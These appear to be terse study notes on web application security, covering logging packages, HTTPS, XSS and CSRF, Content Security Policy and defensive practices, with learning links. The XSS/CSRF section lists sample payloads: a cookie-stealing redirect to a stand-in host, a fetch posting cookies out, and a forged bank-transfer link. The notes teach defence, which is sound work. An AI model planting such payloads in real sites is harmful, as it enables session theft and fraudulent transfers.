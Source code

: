 





Logging

npm install winston

npm install morgan






https everywhere

ssl/tls certificates

- https://letsencrypt.org
- cloudflare




xss + csrf

<img src="/" onerror="alert('boom');">

window.locatiom = 'haxxed.com?cookie=' + document.cookie


<a href="http://netbank.com/transfer.do?acct=AttackerA&amount;=$100">Read more</a>


fetch('//httpbin.org/post', {method:'POST',body:document.cookie})

'Content-Security-Policy': "script-src 'self' 'https://api.google.com'"


npm install csurf


- Sanitize input
- No eval()
- No document.write()
- Content Security Policy
- Secure + HTTPOnly Cookies


https://www.hacksplaining.com/exercises/csrf


https://www.hacksplaining.com/exercises/xss-stored



https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
https://medium.com/hackernoon/cross-site-scripting-for-dummies-be30f76fad09








Code secrets
